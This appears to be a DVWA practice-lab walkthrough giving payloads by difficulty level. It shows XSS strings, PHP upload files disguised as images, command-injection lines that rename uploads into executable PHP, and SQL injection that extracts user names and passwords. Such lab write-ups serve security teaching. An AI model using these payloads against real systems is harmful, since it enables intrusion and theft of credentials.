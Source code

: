 **Attack :** `<SCRIPT>alert("hacked")</SCRIPT>`
## High
It is the same case as medium, but this time, there is too much focus on the script tag, so try img tags.
**Attack :** `<img src=x onerror=alert("hacked")>` in Name

# File Upload
## Low
* Create the following php file
* Upload it
```php
<?php
echo getenv("PATH")
?>
```
* Access the file.

## Medium
* Create the php file
* Save it as .png file
* upload it
* go to command injection
* ``127.0.0.1 & copy ..\..\hackable\uploads\uploadmed.png ..\..\hackable\uploads\uploadmed.php``
* now go back to uploads and access the file.

## High
* The php file looks like
```php
GIF98
<?php
echo getenv('PATH')
?>
```
* Save it as .jpeg file
* Upload it
* go to command injection
* ``127.0.0.1|copy ..\..\hackable\uploads\uploadhigh.jpeg ..\..\hackable\uploads\uploadhigh.php``
* now go back to uploads and access the file.

# SQL Injection

## Low
**Attack :** %' or 1=1 union select null,concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users#
(or)
%' or 1=1 union select null,version()#

